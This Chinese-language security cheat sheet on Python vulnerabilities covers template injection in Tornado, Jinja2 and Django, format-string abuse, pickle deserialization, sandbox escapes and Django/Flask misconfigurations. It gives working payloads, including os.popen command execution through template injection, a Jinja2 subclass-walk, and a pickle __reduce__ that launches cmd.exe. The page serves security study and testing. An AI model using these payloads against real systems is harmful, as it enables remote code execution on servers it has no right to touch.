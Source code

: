 Python漏洞
================================

模版注入
--------------------------------

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法：

- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试例子

- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[2].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标：

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权


格式化字符串
--------------------------------


``"welcome {user}".format(user=user)``
``user = {0.__class__.__init__.__globals__}``

python3 -c "f'''{__import__('os').system('id')}'''"

反序列化
--------------------------------

pickle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >>> class A(object):
    ...     a = 1
    ...     b = 2
    ...     def __reduce__(self):
    ...         return (subprocess.Popen, (('cmd.exe',),))
    ...
    >>> cPickle.dumps(A())
    "csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

PyYAML反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


沙箱
--------------------------------

绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 最简单的思路是在已有的模块中import，如果那个模块中已经 import 可以利用的模块就可以使用了

- 在父类中寻找可用的模块，最常见payload都是 ``().__class__.__bases__[0].__subclasses__()``

- 有些网站没有过滤 pickle 模块，可以使用 pickle 实现任意代码执行，生成 payload 可以使用 ``https://gist.github.com/freddyb/3360650``

- 有的沙箱把相关的模块代码都被删除了，则可以使用libc中的函数，Python 中调用一般可以使用 ctypes 或者 cffi。


防御
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Python官方给出了一些防御的建议

- 使用Jython并尝试使用Java平台来锁定程序的权限
- 使用fakeroot来避免
- 使用一些rootjail的技术


框架
--------------------------------

Django
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nginx 在为 Django 做反向代理时，静态文件目录配置错误会导致源码泄露。访问 /static.. 会 301 重定向到 /static../

Flask
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Flask默认使用客户端session，使得session可以被伪造

参考链接
--------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `Python pickle反序列化 <http://www.91ri.org/9576.html>`_
- `Python 沙箱通用绕过 <https://www.anquanke.com/post/id/86366>`_
- `Python 沙箱 官方wiki <https://wiki.python.org/moin/SandboxedPython>`_